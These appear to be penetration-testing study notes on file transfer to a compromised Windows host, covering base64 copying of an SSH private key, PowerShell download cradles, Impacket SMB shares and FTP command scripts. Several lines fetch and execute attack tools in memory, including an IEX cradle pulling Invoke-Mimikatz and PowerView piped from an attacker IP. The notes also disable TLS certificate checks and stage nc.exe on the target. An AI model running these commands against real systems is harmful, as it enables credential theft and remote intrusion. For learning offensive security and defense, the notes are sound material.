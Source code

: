 # Downloading
- We have access to a Windows machine, and want to download a file from our Linux machine onto it.

## Powershell Bas64 Encode Decode
Don't need network communication. Encode file to base64 string, manually copy contents from terminal and perform reverse operation, decoding file in original content.

eg. want to transfer an ssh key to Windows machine

1. Check the MD5 hash, for use later
	- `md5sum id_rsa
2. Encode the file to base 64 on Linux machine
	- `cat id_rsa | base64 -w 0; echo
3. Copy and paste the output to a Windows Powershell terminal
4. On Windows, convert it back to a file
	- `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("the_string"))
5. Confirming the hashes match
	- `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

## Powershell web downloads

Powershell WebClient provides methods for downloading data from resource.

*DownloadFile method*
- `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
	-  ``(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

*DownloadString - Fileless method*
- Uses some OS functions to download payload and **execute it directly**
	- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
		- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX

*Invoke-WebRequest*
		- Powershell 3.0 onwards
		- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
	- https://gist.github.com/HarmJ0y/bb48307ffa663256e239
		- List of Powershell download cradles
		- Be aware of nuances, eg. lack of proxy awareness or touching disk (downloading file onto target)


Common errors with Powershell
- Internet Explorer first-launch config not completed
	- Bypassed with the -UseBasicParsing flag
		- `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
	- SSL/TLS secure channel, cert not trusted
		- Bypass with
		- `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
			- Just set this variable by running this command separately

## SMB Downloads
- Create SMB server in our machine with smbserver.impacket from Impacket
	- `sudo impacket-smbserver share -smb2support /tmp/smbshare`
		- share is the name of the SMB share
		- /tmp/smbshare is the name of the directory passed in (which the SMB share maps to). If want current directory, just use . 
- Then on Windows
	- `copy \\<Linux machine IP>\share\nc.exe`
	- Note: new versions of windows block unauthenticated guest access
		- `You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
		- To solve this, we set username and password using our Impacket SMB server, then mount the SMB server on windows machine
			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
			- on target: `net use n: \\<Linux machine IP>\share /user:test test

# FTP downloads
Configure FTP server in our machine
- `sudo pip3 install pyftpdlib`
- `sudo python3 -m pyftpdlib --port 21
- Then on windows machine
	- `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
When we get a shell on remote machine, may not have interacive shell
- Solution: put the commands we want to execute into a file
- Then use FTP client to execute the commands in that file to download the target file
- On windows:
	- `echo open 192.168.49.128 > ftpcommand.txt`
		- 192... is Linux IP
		- Put all the commands into ftpcommand.txt
	- `echo USER anonymous >> ftpcommand.txt`
	- `echo binary >> ftpcommand.txt`
	- `echo GET file.txt >> ftpcommand.txt
		- file.txt is what we want to download from the Linux machine
	- `echo bye >> ftpcommand.txt`
	- `ftp -v -n -s:ftpcommand.txt`
		- execute the commands with FTP
	- `more file.txt`
		- file downloaded
